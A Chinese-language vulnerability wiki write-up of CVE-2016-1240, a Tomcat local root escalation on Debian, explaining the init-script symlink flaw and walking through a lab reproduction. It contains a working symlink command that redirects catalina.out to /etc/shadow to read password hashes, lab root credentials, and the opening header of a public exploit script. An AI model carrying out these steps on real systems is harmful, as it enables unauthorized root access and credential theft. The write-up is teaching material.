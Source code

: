 1.  这个脚本运行时的权限必然是root权限。因为普通用户是无法使用`chown`命令，也就是没有更高的权限。

2.  该脚本使用touch命令创建文件，此时存在以下：文件存在、不存在、存在为符号链接等情况，当文件为符号链接时会默认地对链接的文件进行操作。

3.  脚本运行完毕后Tomcat服务器启动，此时catalina.out这个log文件的所属用户为tomcat，所属组为root。

综述上述，这就给漏洞利用创造了可能。

接下来我们来验证是否可以利用：

当前的用户为tomcat7。这就是说我们能够更改所属用户为tomcat7的catalina.out这个log文件的内容和属性。
更改它的属性，让他指向/etc/shadow/文件夹下，现在我们创建一个指向
/etc/shadow 的符号链接。
使用命令`ln -fs /etc/shadow /var/log/tomcat7/catalina.out`,这时候就可以在/etc/shadow下创建一个链接，就相当于Windows的快捷方式一样。

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2016-1240)Tomcat本地提权漏洞/media/rId28.png)

此时我们查看文件cataline.out的内容，此时是权限不够，禁止读取cataline.out的内容的：

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2016-1240)Tomcat本地提权漏洞/media/rId29.png)

现在我们需要登陆root账户重启tomcat。登陆方法与登陆Tomcat7
用户相同，账号为：root, 密码为：123456 。重启Tomcat的命令为：

    service tomcat7 restart

重启成功之后我们再次使用`低权限用户`读取cataline.out的内容：使用命令

    head /var/log/tomcat6/catalina.out

使用head命令可以输出文件前十行的内容，而`cat`命令则是预览文件的全部内容。

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2016-1240)Tomcat本地提权漏洞/media/rId30.gif)

**原理:**当Tomcat服务重启时，系统默认重新加载`/var/log/tomcat6/catalina.out`脚本，由于此时tomcat的日志文件指向了`/etc/shadow文件`;
而该文件就是我们之前创建的链接文件，而链接文件属于Tomcat7这个`低权限用户`，因此，我们就可以查看其中内容了。

### 漏洞复现

本步将使用poc根据Tomcat7漏洞进行提权

#### poc

    #!/bin/bash
    #
    # Tomcat 6/7/8 on Debian-based distros - Local Root Privilege Escalation Exploit
    #
    # CVE-2016-1240
    #
    # Discovered and coded by:
    #
    # Dawid Golunski
    # http://legalhackers.com
    #
    # This exploit targets Tomcat (versions 6, 7 and 8) packaging on 